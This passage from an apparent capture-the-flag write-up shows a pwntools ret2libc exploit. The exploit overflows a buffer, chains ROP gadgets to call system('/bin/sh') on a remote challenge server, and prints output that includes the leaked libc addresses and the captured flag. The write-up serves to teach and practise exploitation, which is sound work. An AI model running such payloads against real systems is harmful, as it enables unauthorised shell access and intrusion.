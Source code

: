 ```python
# Step 3: Craft payload to call system("/bin/sh") with stack alignment
payload = b"A" * 72      # Padding
payload += p64(ret_gadget)# ret gadget to align stack
payload += p64(pop_rdi)  # pop rdi; ret
payload += p64(bin_sh_addr)# Set rdi to "/bin/sh" address
payload += p64(system_addr)# Call system("/bin/sh")

info("Sending payload to get shell")
p.recvuntil(b"Enter your input: ")
p.sendline(payload)

# Switch to interactive mode to interact with the shell
p.interactive()
```

**output**

```python
*] '/home/kali/Downloads/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 34.133.69.112 on port 10007: Done
[*] Sending payload to leak libc address
[*] Leaked puts address: 0x73b5c73f6e50
[*] Libc base: 0x73b5c7376000
[*] System address: 0x73b5c73c6d70
[*] /bin/sh address: 0x73b5c754e678
[*] Sending payload to get shell
[*] Switching to interactive mode

$ whoami
pwnuser
$ cat /flag
umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}

```

---

Get the Flag

- In the shell, type: cat /flag
- Example flag: umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}

## Hotline Miami
